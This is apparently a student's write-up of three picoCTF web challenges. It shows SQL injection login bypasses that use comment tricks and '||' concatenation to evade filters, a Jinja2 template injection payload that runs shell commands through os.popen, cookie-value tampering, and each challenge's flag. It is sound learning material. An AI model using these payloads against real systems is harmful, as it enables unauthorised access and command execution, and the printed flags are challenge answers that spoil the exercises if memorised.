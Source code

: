 # 1. Web Gauntlet 

Can you beat the filters?
Log in as admin http://shape-facility.picoctf.net:64164/ http://shape-facility.picoctf.net:64164/filter.php

## Solution:

1.We are given two links,upon opening the links we can see a login page and a page with some text   
![screenshot of login page](./Screenshots/WebExp_Challenge1_login.jpg)
and text on the second page is 

```
Round1: or
```
<br>
2.I start by inputting a random username and password to see what kind of error is shown.However along with an error,the page also shows an sql command.This makes me believe that this challenge is based on sql injection.

![screenshot of sql command 1](./Screenshots/WebExp_Challenge1_SQLcommand1.jpg)
Now we need to give the username such that it breaks the sql command and prevents the page from fetching any password.I first try using 'or', however that does not take me anywhere,this makes me conclude that the text on page 2 tells us what is restricted.For the second try i use '--',this is used to make comments in sql.Using that I am hoping that the page is unable to fetch the password from the database.So to test my theory I enter "admin'--" in the admin field and enter a random password.

![screenshot of sql round 1](./Screenshots/WebExp_Challenge1_Round1.jpg)
This is accepted by the page and I move on to the next round.The final sql query would look like
```
SELECT * FROM users WHERE username='admin' --' AND password='pico'
```
<br>
3.Now on after reaching round 2,I check page 2 and see that new restrictions have been applied.
```
Round2: or and like = --
```
However '--' is not the only way SQL supports comments, we can use '/* */' to write multiline comments.

![screenshot of sql round 2](./Screenshots/WebExp_Challenge1_Round2.jpg)
This works and we move to round 3.The final sql query would look like
```
SELECT * FROM users WHERE username='admin' /*' AND password='pass'
```
<br>
4.Again checking page 2,I find new restrictions.

```
Round3: or and = like > < --
```

Seeing how our multiline comment injection is still not restricted I just use that again and we move to the next round.
<br>

5.Checking page 2,I find more new restrictions.

```
Round4: or and = like > < -- admin
```

Now the word admin has been banned,I need to find a way to input admin.First I think of using the concat() function,however upon thinking a bit it does not seem feasible as the input I give is between quotes and due to that it will be taken as a string.Then I try to use '+' operator to add two strings to make the word admin,however that fails.Upon further research ,I find a concat operator '||' and try using that.

![screenshot of sql round 4](./Screenshots/WebExp_Challenge1_Round4.jpg)
This is succesful and I move on to the next round.The sql query would look like
```
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='pass'
```
<br>
6.Round 5 the final round upon logging in on this page,we should get the flag.Like always,I check page 2 for restrictions
```
Round5: or and = like > < -- union admin
```
Seeing how our concat operator and multiline comment trick are still not restricted,I just try using that again.
It works and I am shown a message.

![screenshot of sql round 5](./Screenshots/WebExp_Challenge1_Round5.jpg)
Going to page 2,I can see the final flag!

![screenshot of sql flag](./Screenshots/WebExp_Challenge1_flag.jpg)
The sql query would be:
```
ad'||'min'/*
```

## Flag:
```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:

- Concantenation operator(Double Pipe ||):Used to join two or more strings.

## Resources:

- geeksforgeeks(https://www.geeksforgeeks.org/sql/sql-concatenation-operator/)

***

# 2. SSTI1 

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:

1.Upon accessing the provided URL,I found a simple webpage with a text input field and a button.
![screenshot of webpage](./Screenshots/WebExp_Challenge2_webpage.jpg)
It displays back whatever I input in the field
![screenshot of webpage output ](./Screenshots/WebExp_Challenge2_output.jpg)

2.Upon doing some research on SSTI(Server-Side Template Injection),I give a prompt
```
{{'a'+'b'}}
```
The output is
![screenshot of webpage test output ](./Screenshots/WebExp_Challenge2_testoutput.jpg)

3.To confirm that this is Jinja 2 and that we can run commands,I give the input
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
and we get the output
![screenshot of webpage test output ](./Screenshots/WebExp_Challenge2_testoutput.jpg)

4.Now that we have confirmed our suspicions we can check the files present in the directory using
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```
![screenshot of webpage test output ](./Screenshots/WebExp_Challenge2_testoutput.jpg)

5.Upon opening the file present in the directory we get the flag,we use the input
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```
![screenshot of webpage test output ](./Screenshots/WebExp_Challenge2_testoutput.jpg)


## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_dcdca99a}
```

## Concepts learnt:

- Polyglot Payloads: You learn how to use simple expressions, often called polyglot payloads (e.g., {{ 7 * 7 }} or {{ 'a' + 'b' }}), to test for the vulnerability. If the result is the computed answer (49 or ab) instead of the raw text, the server is executing the input.
- Engine Fingerprinting: learnt how identify the specific template engine (Jinja2, Twig, ERB, etc.) to successfully exploit the vulnerability. This is often done by observing how the engine handles unique syntax or operations.


## Resources:

- Testing for Server-side Template Injection(https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)
- Server-side template injection(https://portswigger.net/web-security/server-side-template-injection)


***

# 3. Cookies

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:54219/

## Solution:

1.The link takes us to a webpage with a input box and a button.
![screenshot of webpage output ](./Screenshots/WebExp_Challenge3_mainpage.jpg)

2.I open the developer tab and go to the cookies tab and see one cookie named 'name' with value -1
![screenshot of webpage output ](./Screenshots/WebExp_Challenge3_cookies.jpg)

3.I input 'snickerdoodle' and the page gives a response and the value in the cookie 'name' changes to 0
![screenshot of webpage output ](./Screenshots/WebExp_Challenge3_snickerdoodle.jpg)

4.I look up most famous cookies and try entering the top 10 names.I input 'Chocolate chip' and the value in the cookie 'name' changes to 1.
![screenshot of webpage output ](./Screenshots/WebExp_Challenge3_chocolatechip.jpg)

5.From this process I conclude that different values of the cookie 'name' will result in different cookie names at the output.Now we just need to cycle through numbers till we get some information to move forward.I got lucky and found the flag when i changed value of cookie 'name' to 18


## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}
```

## Concepts learnt:

- Client-Side Data Storage: Learned that web applications use cookies to store user-specific data on the client's browser. This data is sent back to the server with every request.
- Cookie Manipulation: Understood that if an application relies solely on an unvalidated cookie value (like name) to determine content, an attacker can manipulate that value to access unauthorized data.



## Resources:

- Cookie Management (Browser Developer Tools)
- Understanding Cookies in Web Browsers(https://www.geeksforgeeks.org/websites-apps/understanding-cookies-in-web-browsers/)

***